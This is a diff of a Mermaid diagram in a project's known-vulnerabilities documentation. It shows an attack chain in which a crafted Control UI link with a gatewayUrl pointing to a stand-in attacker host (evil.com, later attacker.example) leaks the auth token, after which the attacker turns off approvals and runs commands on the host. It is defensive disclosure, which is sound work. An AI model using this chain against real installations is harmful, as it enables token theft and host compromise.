

One commit to clawdocs/clawdocs.github.io changed the diagram in docs/security/known-vulnerabilities.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed other lines of this file and 1 other file, not shown here.

````diff
--- a/docs/security/known-vulnerabilities.md
+++ b/docs/security/known-vulnerabilities.md
@@ -36,12 +157,10 @@
 ```mermaid
 flowchart TD
-    A["1. Attacker crafts URL<br/>localhost:18789/ui?gatewayUrl=ws://evil.com"] --> B["2. Victim clicks link<br/>(phishing, chat, etc.)"]
-    B --> C["3. Browser opens Control UI"]
-    C --> D["4. UI connects to attacker's<br/>WebSocket, sends auth token"]
-    D --> E["5. Attacker disables confirmations<br/>(exec.approvals.set = off)"]
-    E --> F["6. Attacker escapes containers<br/>(tools.exec.host = gateway)"]
-    F --> G["7. Full system compromise<br/>in milliseconds"]
+    A["1. Attacker crafts a Control UI link<br/>with ?gatewayUrl=wss://attacker.example"] --> B["2. Victim opens the link<br/>(phishing, chat, etc.)"]
+    B --> C["3. Control UI connects to the<br/>attacker's WebSocket and sends the token"]
+    C --> D["4. Attacker connects to the victim's<br/>Gateway with the stolen token"]
+    D --> E["5. Attacker turns off approvals<br/>and runs commands on the host"]
 
     style A fill:#ff6b6b,color:#fff
-    style G fill:#ff6b6b,color:#fff
+    style E fill:#ff6b6b,color:#fff
 ```
````
